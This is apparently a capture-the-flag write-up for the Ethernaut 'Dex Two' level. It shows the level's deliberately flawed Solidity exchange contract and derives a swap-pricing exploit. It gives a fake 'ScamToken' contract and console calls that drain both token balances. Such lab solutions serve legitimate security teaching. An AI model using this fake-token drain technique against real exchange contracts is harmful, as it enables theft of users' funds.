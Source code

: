 # 23 Dex Two

```
This level will ask you to break DexTwo, a subtlely modified Dex contract from the previous level, in a different way.

You need to drain all balances of token1 and token2 from the DexTwo contract to succeed in this level.

You will still start with 10 tokens of token1 and 10 of token2. The DEX contract still starts with 100 of each token.

  Things that might help:

How has the swap method been modified?
```
####  code
```

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/IERC20.sol";
import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";
import 'openzeppelin-contracts-08/access/Ownable.sol';

contract DexTwo is Ownable {
  address public token1;
  address public token2;
  constructor() {}

  function setTokens(address _token1, address _token2) public onlyOwner {
    token1 = _token1;
    token2 = _token2;
  }

  function add_liquidity(address token_address, uint amount) public onlyOwner {
    IERC20(token_address).transferFrom(msg.sender, address(this), amount);
  }
  
  function swap(address from, address to, uint amount) public {
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swapAmount = getSwapAmount(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
  } 

  function getSwapAmount(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }

  function approve(address spender, uint amount) public {
    SwappableTokenTwo(token1).approve(msg.sender, spender, amount);
    SwappableTokenTwo(token2).approve(msg.sender, spender, amount);
  }

  function balanceOf(address token, address account) public view returns (uint){
    return IERC20(token).balanceOf(account);
  }
}

contract SwappableTokenTwo is ERC20 {
  address private _dex;
  constructor(address dexInstance, string memory name, string memory symbol, uint initialSupply) ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
  }

  function approve(address owner, address spender, uint256 amount) public {
    require(owner != _dex, "InvalidApprover");
    super._approve(owner, spender, amount);
  }
}


```




#### Start 


### (1) `drain all balances of token1 and token2 from the DexTwo contract`

Code is slightly different from the previous(Dex) :

function `swap()` don't have `require(((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");`

that means we can use any token to attack.

How do we do ?

.

.

.

We will attack same before in  function `getSwapAmount()`.

calculation equation 
```
(amount * balance contract Dex tokenBuy )/(balance contract Dex tokenSell )
```

This time we can take advantage of the  contract token balance  by using our scam token attack

because we can use the transfer function to transfer our scam token directly into the contract

We must make the balance of the scam token in the contract greater than 0, because if it is 0, there will be a division by 0 problem.

Let's calculate

.

.

We need all 100 token1 in the contract
``` 
    token1 = 100   amount = ?   balance contract Dex tokenBuy = 100   balance contract Dex tokenSell = ?

    token1 = (amount * balance contract Dex tokenBuy )/ balance contract Dex tokenSell

                                                 |   
                                                 |
                                                 |
                                                            
    100   =  ( amount * 100) / balance contract Dex tokenSell

    balance contract Dex tokenSell =  amount

```

`balance contract Dex tokenSell =  amount`

This equation means that

input amount and balance scamtoken in contract must be the same

.


We will use only 1 scam token.

```
    token1 = (1 * 100 )/ 1
    token1 = 100
```
We got all token1 from the contract  and balance token1 in contract = 0 balance scam token in contract = 2

next step We need all 100 token2 in the contract

.

.

.

Now that we cannot define the balance contract Dex tokenSell, we are left with only one variable input `amount`
```
    token2 = 100   amount = ?   balance contract Dex tokenBuy = 100   balance contract Dex tokenSell = 2

    100 = (amount * 100 )/ 2
    amount = 2
```
We get amount scam token for swap is 2 to get all 100 token2 in contract

After all the calculations, let's start.

#### This is the code I used for ScamToken
```

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract ScamToken is ERC20 {
    constructor(uint256 initialSupply) ERC20("ScamToken", "SCAM")  {
        _mint(msg.sender, initialSupply);
    }
}

```
Use the remix deploy contract `ScamToken ` 


- (1) Call `approve`  for  contract DexTwo in remix  and confirm transaction
- (2) Call `transfer` send 1 scam token to  contract DexTwo in remix  and confirm transaction

#### Open Developer Tools (F12)

- (1) type  `await contract.approve(contract.address,toWei('1000'))`                       and confirm transaction
- (2) type  `await contract.swap(" **address scam token *** ",await contract.token1(),1)`  and confirm transaction
- (3) type  `await contract.swap(" **address scam token *** ",await contract.token2(),2)`  and confirm transaction

Click button Submit instance and confirm transaction 

# !!! we passed !!!


